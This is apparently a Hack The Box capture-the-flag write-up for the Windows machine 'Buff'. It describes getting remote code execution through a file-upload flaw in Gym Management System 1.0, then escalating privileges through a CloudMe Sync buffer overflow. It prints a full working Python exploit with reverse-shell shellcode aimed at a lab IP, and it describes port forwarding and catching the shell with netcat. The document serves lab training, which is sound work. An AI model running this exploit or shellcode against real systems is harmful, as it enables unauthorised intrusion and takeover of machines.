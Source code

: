 ```yaml
---
layout: single
title: Buff - Hack The Box
excerpt: ""
date: 2020-11-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-buff/buff_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - buffer overflow
  - cve
  - windows
  - file upload
  - cloudme sync
---
```


![](/assets/images/htb-writeup-intense/intense_logo.png)

Use public exploit, get RCE. Do some port-forwarding, then use another exploit (buffer overflow) to get Administrator access. Done. Yawn.

## Summary

- Use unauthenticated file upload vulnerability in Gym Management System 1.0 to get RCE
- Exploit a buffer overflow vulnerability in the CloudMe Sync application to get RCE as Administrator

## Portscan

![image-20200726162532670](/assets/images/htb-writeup-buff/image-20200726162532670.png)

## Website

There's a PHP web application running on port 8080 and it looks like it's a fitness/gym website.

![image-20200726161829858](/assets/images/htb-writeup-buff/image-20200726161829858.png)

![image-20200726162013695](/assets/images/htb-writeup-buff/image-20200726162013695.png)

![image-20200726162040519](/assets/images/htb-writeup-buff/image-20200726162040519.png)

![image-20200726162116526](/assets/images/htb-writeup-buff/image-20200726162116526.png)

The Contact page shows a possible software name / version which we'll look up on Exploit-DB.

![image-20200726162202199](/assets/images/htb-writeup-buff/image-20200726162202199.png)

Exploit-DB has a match for Gym Management System 1.0. At the bottom of every page on the website we see `projectworlds.in` so it's a fair guess that this is the software running this website.

![image-20200726162258198](/assets/images/htb-writeup-buff/image-20200726162258198.png)

Luckily for us, the exploit is unauthenticated and provides remote execution so we don't need anything else to get started.

```
# Exploit Title: Gym Management System 1.0 - Unauthenticated Remote Code Execution
# Exploit Author: Bobby Cooke
# Date: 2020-05-21
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
# Version: 1.0
# Tested On: Windows 10 Pro 1909 (x64_86) + XAMPP 7.4.4
# Exploit Tested Using: Python 2.7.17
# Vulnerability Description: 
#   Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
[...]
```

## Gym Management System exploitation

The exploit provides a nice pseudo-shell which is useful for looking around and running other commands. We can see our initial shell is running as user **Shaun** and that we can get the first flag.

![image-20200726162806589](/assets/images/htb-writeup-buff/image-20200726162806589.png)

## Priv esc

Checking the open ports on the machine, we see there's a MySQL instance running on port 3306 and something else running on port 8888.

![image-20200726163049549](/assets/images/htb-writeup-buff/image-20200726163049549.png)

On Exploit-DB we can find a few vulnerabilities for CloudMe Sync. I've highlighted the exploit I used. The CloudMe Sync software is not compiled with any of the protections enabled like ASLR and DEP so a good old buffer overflow with shellcode executable on the stack will work fine.

![image-20200726185742784](/assets/images/htb-writeup-buff/image-20200726185742784.png)

We'll need to do some port-forwarding to be able to reach port 8888 with our exploit. I could use plink or metasploit to do that but instead I'll use the https://github.com/xct/xc reverse shell tool. I'll transfer the tool with smbclient.py from impacket then rename it to contain my IP address and port. It's an optional feature of xc which is nice in case you can execute a file but can't pass any parameters to it.

![image-20200726184935454](/assets/images/htb-writeup-buff/image-20200726184935454.png)

After catching the reverse shell with xc, we'll use the `!portfwd` command to redirect port 8888 on our local machine to port 8888 on the remote box.

![image-20200726185112725](/assets/images/htb-writeup-buff/image-20200726185112725.png)

Next, we'll generate a shellcode that'll spawn a reverse shell. The output is in Python3 format (it contains the b before the string indicating it's a byte type). I'll clean that up and rename buf to shellcode and stick it in the downloaded exploit.

![image-20200726185959460](/assets/images/htb-writeup-buff/image-20200726185959460.png)

Final exploit shown below:

```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"		#68a98a7b : JMP ESP - Qt5Core.dll

shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
shellcode += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
shellcode += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
shellcode += "\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
shellcode += "\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x15\x68"
shellcode += "\x02\x00\x15\xb3\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
shellcode += "\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
shellcode += "\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
shellcode += "\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
shellcode += "\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
shellcode += "\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
shellcode += "\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
shellcode += "\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
shellcode += "\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
shellcode += "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
```

The exploit triggers the buffer overflow, executes our shellcode and spawn a reverse shell which we catch with a netcat listener.

![image-20200726190204674](/assets/images/htb-writeup-buff/image-20200726190204674.png)